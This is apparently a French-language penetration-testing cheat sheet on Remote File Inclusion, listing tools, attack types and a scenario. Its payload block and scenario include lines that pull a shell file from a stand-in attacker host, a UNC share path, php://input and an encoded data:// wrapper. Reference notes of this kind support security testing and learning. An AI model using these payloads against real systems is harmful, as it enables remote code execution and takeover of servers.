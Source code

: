 
## 🌐 RFI (Remote File Inclusion)

---

## Introduction

Le <span class="concept">RFI</span> permet à un attaquant d’inclure un fichier distant dans une application vulnérable.

Elle peut permettre :
- Exécution de code distant (RCE)
- Déploiement de backdoor
- Contrôle complet du serveur

Souvent combinée avec :
- LFI → RFI chained
- XSS → RCE indirect
- Upload vulnérable

---

## Objectifs

- <span class="goal">Identifier des vecteurs RFI</span>
- <span class="goal">Inclure un fichier malicieux</span>
- <span class="goal">Obtenir un RCE / shell</span>

---

## Outils & commandes

| Outil | Exemple & explication |
|-------|-----------------------|
| <span class="technology">Burp Suite (Repeater)</span> | Injection manuelle |
| <span class="technology">ffuf</span> | <span class="example">ffuf -u target?file=FUZZ -w rfi.txt</span> |
| <span class="technology">wfuzz</span> | Fuzz avancé |
| <span class="technology">PayloadsAllTheThings</span> | Cheatsheet |
| <span class="technology">bbot</span> | Recon |
| <span class="technology">dnslog.cn</span> | Détection RFI Blind |

---

## Types de RFI

| Type | Exemple |
|------|---------|
| <span class="concept">Basic RFI</span> | `?page=http://attacker.com/shell.txt` |
| <span class="concept">Chained RFI</span> | LFI → local wrapper include |
| <span class="concept">RFI via upload</span> | Upload + include |
| <span class="concept">RFI Blind</span> | Détecté par DNS callback |
| <span class="concept">RFI + LFI + XSS</span> | Chaines hybrides |

---

## Techniques clés

| Technique | Outil |
|-----------|------|
| <span class="concept">Manual injection</span> | Burp |
| <span class="concept">Automated fuzz</span> | ffuf, wfuzz |
| <span class="concept">Blind detection</span> | dnslog.cn |
| <span class="concept">Bypass filters</span> | Manual |
| <span class="concept">Chained LFI → RFI</span> | Manual |

---

## Payloads courants

```
http://attacker.com/shell.txt
\\attacker\share
../../../../attacker.com/shell
php://input
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
```

---

## Bonnes pratiques

- <span class="best-practice">Documenter les chemins vulnérables</span>
- <span class="best-practice">Vérifier le contexte (GET, POST, JSON)</span>
- <span class="best-practice">Limiter le bruit en prod (fuzz slow mode)</span>
- <span class="best-practice">Tester les blind RFI</span>
- <span class="mitigation">Ne pas utiliser de payload destructif</span>

---

## 🎯 Exemple de scénario

> <span class="note">🌐 Cible :</span> Web app PHP vulnérable

Actions :
- <span class="technology">ffuf</span> → découverte param `page`
- <span class="technology">Burp Repeater</span> → test `http://attacker.com/shell.txt`
- Reverse shell confirmé
- LFI → RFI via wrapper `php://filter`
- Rapport avec POC complet

---

## Cheatlist RFI

| Type | Outils |
|------|--------|
| Manual | Burp, PayloadsAllTheThings |
| Automated | ffuf, wfuzz |
| Blind | dnslog.cn |
| Chained | Manual |

---

## 🚀 Navigation

- 🚀 [[08_IDOR]]
- 🚀 [[09_SSRF]]
